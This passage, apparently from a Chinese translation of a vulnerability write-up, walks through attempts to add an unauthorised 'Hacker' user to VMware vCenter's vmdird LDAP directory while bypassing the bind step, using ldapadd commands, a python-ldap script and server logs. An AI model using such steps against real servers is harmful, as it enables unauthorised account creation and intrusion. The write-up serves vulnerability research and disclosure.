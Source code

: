 从调用关系图中，我们可知添加、修改以及搜索请求都会经过`VmDirLegacyAccessCheck`处理。

### <a class="reference-link" name="%E7%AC%AC1%E6%AC%A1%E5%B0%9D%E8%AF%95"></a>第1次尝试

我们首先安装`ldap-utils`，尝试使用错误的凭据在vCenter主机中添加一个用户：

```
root@computer:~# ldapadd -x -w 1234 -f hacker.ldif -h 192.168.1.130
 -D"cn=Administrator,cn=Users,dc=vsphere,dc=local"
ldap_bind: Invalid credentials (49)
```

并没有完成任务，来看一下`vmdird`的日志内容：

```
2020-04-15T14:20:56.079504+00:00 info vmdird  t@140564750137088: Bind failed () 
(9234)
2020-04-15T14:20:56.080409+00:00 err vmdird  t@140564750137088: 
VmDirSendLdapResult: Request (Bind), Error (49), Message (), (0) socket 
(192.168.0.254)
2020-04-15T14:20:56.080832+00:00 err vmdird  t@140564750137088: Bind Request 
Failed (192.168.0.254) error 49: Protocol version: 3, Bind DN: 
"cn=Administrator,cn=Users,dc=vsphere,dc=local", Method: Simple
```

看上去我们似乎并没有触及到该请求的`add`部分。`ldapadd`在对服务端执行任何命令之前，首先需要执行`bind`操作，但`bind`操作将返回`9234`错误（`VMDIR_ERROR_USER_INVALID_CREDENTIAL`）。那么是否有办法能绕过`bind`阶段呢？

我们安装了`python-ldap`，尝试自己执行该操作。

```
dn = 'cn=Hacker,cn=Users,dc=vsphere,dc=local'
modlist = `{`
    'userPrincipalName': ['hacker@VSPHERE.LOCAL'],
    'sAMAccountName': ['hacker'],
    'givenName': ['hacker'],
    'sn': ['vsphere.local'],
    'cn': ['Hacker'],
    'uid': ['hacker'],
    'objectClass': ['top', 'person', 'organizationalPerson', 'user'],
    'userPassword': 'TheHacker1!'
`}`

c = ldap.initialize('ldap://192.168.1.130')
c.add_s(dn, ldap.modlist.addModlist(modlist))

Traceback (most recent call last):
  File "do_ldap.py", line 27, in 
    print c.add_s(dn, ldap.modlist.addModlist(modlist))
...
ldap.INSUFFICIENT_ACCESS: `{`'info': u'Not bind/authenticate yet', 'desc': u'Insufficient access'`}`
```

依然没完成任务，vCenter服务器中的日志如下：
